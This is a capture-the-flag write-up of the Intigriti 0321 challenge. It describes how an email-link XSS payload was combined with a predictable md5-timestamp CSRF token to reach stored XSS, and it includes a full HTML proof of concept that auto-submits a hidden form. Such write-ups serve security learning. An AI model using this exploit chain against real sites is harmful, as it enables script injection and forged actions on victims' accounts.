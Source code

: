 # Intigriti 0321 Challenge Writeup

First of all , how the website work is the website has notes that take input. Our input has generated to the `<p>` tag. I have entered html tags like `<script> , <h1>,` etc..
and it encoded all the html tags.  
  When I entered the notes as `https://google.com` , the response come with <a> tag. I tried to escape from the <a> tag and still it 
didn't work.  
  Then , I tried with `mgthura@test.com` it converted to <a> tag again.  
  ![](https://github.com/mgthuramoemyint/mgthura/blob/gh-pages/intigrit.PNG)
  I tested to break out the <a> tag again with the payload `"mgthura"@test.com`.  
  The response
come with `<a href="mailto:" mgthura"@test.com"="">"mgthura"@test.com</a>` showing that  we've successfully injected to the tag. Still we can't use to escape from the <a> tag
just adding some event so the new payload will be `"onmouseenter=alert('flag{THIS_IS_THE_FLAG}');"@test.com`  
  By entering the new payload,
  ![](https://github.com/mgthuramoemyint/mgthura/blob/gh-pages/intigrit2.PNG)
  It was still a self xss. The challenge said it can't be self xss.
  So we need to chain csrf to get a stored xss. I checked the csrf token and anaylsing which hash it is , seem to be md5 hash.
  Look at the first photo again, see what it is written with comment tag.  
  `<!-- page generated at 2021-03-29 12:38:35 -->`  
  By changing the time to timestamp , I got the digits `1617020646` and encrypting to md5.  
  ![](https://github.com/mgthuramoemyint/mgthura/blob/gh-pages/md5.PNG)  
  Hence , we now how to bypass CSRF it's time to make a POC.  
    
  The csrf works liken when you open the page it will generate a token and you need to make a request with that generated token. So we've to open a new page in POC or by using iframe.
  ```<html>
<body>
<script src="https://cdnjs.cloudflare.com/ajax/libs/blueimp-md5/2.18.0/js/md5.min.js" integrity="sha512-Hmp6qDy9imQmd15Ds1WQJ3uoyGCUz5myyr5ijainC1z+tP7wuXcze5ZZR3dF7+rkRALfNy7jcfgS5hH8wJ/2dQ==" crossorigin="anonymous"></script>
<script>
function go(){
let w = window.open("https://challenge-0321.intigriti.io/",'');
setTimeout(function(){w.close();trigger();csrf.submit()},1000)
}
</script>

<h1 onclick=go()>Click me</h1>
<form name=csrf style="display:none" action="https://challenge-0321.intigriti.io/" method="POST">
<input id="csrfToken" type="hidden" name="csrf" value="" />
<input type="hidden" name="notes" value="&quot;onmouseenter=alert(&#39;flag{THIS_IS_THE_FLAG}&#39;);&quot;@test.com" />
<input type="submit" onclick="trigger()" value="Submit request" />
</form>
<script>

var d2 = Date.now();
console.log(d2);
let csrftoken = document.getElementById("csrfToken");

let trigger = () => {
let date = Date.now();
date = Math.floor(date / 1000)
hash = md5(date);
csrftoken.value = hash
console.log(date);
}
</script>
</body>

</html>
```
## Explantation of POC
First , I called a javascript that will encrypt the value to md5
`https://cdnjs.cloudflare.com/ajax/libs/blueimp-md5/2.18.0/js/md5.min.js`.  
The another script tag is opening a new window and submitting the request. The form is CSRF request , the last script is I take current timestamp with `Date.now()`.  
The timestamp includes millisecond and don't need it so removed by dividing 1000 for the decimal value I used Math.floor to remove that.
Now encrypt it with md5 , finally we got the csrf value.
Still the script is right but sometime it late a second when we hash the value. I asked my help friend to become a better script.
